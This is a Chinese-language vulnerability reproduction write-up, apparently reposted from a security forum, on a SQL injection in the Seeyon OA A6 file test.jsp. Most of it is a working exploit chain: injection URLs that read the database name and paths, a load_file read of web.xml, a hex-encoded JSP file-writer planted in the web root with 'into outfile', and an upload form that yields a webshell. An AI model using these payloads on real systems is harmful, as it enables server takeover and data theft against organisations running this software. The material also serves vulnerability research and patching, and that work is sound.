 # 致远OA A6 test.jsp sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3346](https://www.zhihuifly.com/t/topic/3346)

# 致远OA A6 test.jsp sql注入漏洞

## 一、漏洞简介

致远A6协同系统 `/yyoa/common/js/menu/test.jsp` 文件 S1 参数SQL注入漏洞

## 二、漏洞影响

致远OA A6

## 三、复现过程

注入点为S1变量，通过探测，发现是mysql数据库

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1= 
```

于是构造注入语句查询数据库名：

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database()) 
```

![image](img/b9c5e9eb57fe43726773b342ef04f0d7.png)

Mysql注入中，我们使用into outfile 来写入数据，用此方法注入webshell，前提条件两个：

*   1：root权限

*   2：物理路径

我们探测一下web根目录

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir) 
```

![image](img/979d9525a5dd46643280e2634a8b9d54.png)

通过yyoa目录结构猜测物理路径为

```
F:/UFseeyon/OA/tomcat/webapps/yyoa/ 
```

可以使用load_file判断是否正确

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20load_file(%27F:/UFseeyon/OA/tomcat/webapps/yyoa/WEB-INF/web.xml%27) 
```

利用mysql into outfile写shell：由于jsp一句话超长，请求连接会拒绝，故先上传写文件脚本，再本地构造进行webshell上传：

```
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%> 
```

由于特殊符号存在，URL编码会造成写入后代码错误，故采用hex编码后unhex处理上传，写入文件名为：he1p.jsp

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27F:/UFseeyon/OA/tomcat/webapps/yyoa/he1p.jsp%27 
```

本地构造上传：

```
<html>
    <form action="http://www.0-sec.org/yyoa/he1p.jsp?f=we1come.jsp" method="post">
        <textarea name=t cols=120 rows=10 width=45>your code</testarea>
        <input type=submit value="提交">
    </form>
</html> 
```

上传后获取webshell地址为：http://www.0-sec.org/yyoa/we1come.jsp

## 参考链接

> https://www.pa55w0rd.online/yyoa/